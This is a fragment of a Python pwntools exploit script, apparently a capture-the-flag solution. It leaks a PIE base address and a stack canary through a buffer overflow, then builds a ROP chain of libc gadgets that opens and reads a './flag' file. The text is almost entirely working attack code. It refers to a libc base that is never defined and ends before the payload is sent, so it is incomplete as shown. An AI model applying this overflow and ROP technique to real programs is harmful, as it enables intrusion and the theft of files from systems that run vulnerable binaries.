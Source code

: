 ```python

p.recvline()
p.recvline()
pie = u64(p.recvline().strip().split(b': ')[1].ljust(8, b'\x00')) - 0x3008
log.info('pie base: ' + hex(pie))

p.sendline(b'\x04 echo')
time.sleep(0.1)

p.send(b'test')
p.recvuntil(b'test\n')

p.send(b'a'*520 + b'x')
p.recvuntil(b'x')
canary = u64(p.recv(7).rjust(8, b'\x00'))
log.info('canary: ' + hex(canary))

pause()

poprdi = libc + 0x2a3e5
poprsi = libc + 0x141d5e
poprsi2 = libc + 0x2a3e3
poprdx = libc + 0x11f2e7

libc_open = libc + 0x1144e0
libc_read = libc + 0x1147d0
libc_write = libc + 0x114870
bss = pie + 0x5500

#exploit
payload = b"A"*520
payload += p64(canary)
payload += b"BBBBBBBB"

#write ./flag string
payload += p64(poprdi)
payload += p64(4)
payload += p64(poprsi2)
payload += p64(bss)
payload += p64(0)
payload += p64(poprdx)
payload += p64(7)
payload += p64(0)
payload += p64(libc_read)

#open ./flag
payload += p64(poprdi)
payload += p64(bss)
payload += p64(poprsi2)
payload += p64(0)
payload += p64(0)
payload += p64(libc_open)

#read ./flag
payload += p64(poprdi)
payload += p64(3)
payload += p64(poprsi2)
payload += p64(bss)
payload += p64(0)
payload += p64(poprdx)
payload += p64(100)
payload += p64(0)
payload += p64(libc_read)
```